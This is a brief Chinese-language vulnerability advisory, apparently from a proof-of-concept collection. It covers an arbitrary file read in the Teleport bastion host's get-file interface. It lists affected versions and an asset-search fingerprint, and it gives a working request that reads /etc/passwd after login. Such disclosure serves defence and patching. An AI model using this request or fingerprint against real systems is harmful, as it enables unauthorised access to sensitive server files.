

# Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面


登录后使用POC验证

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

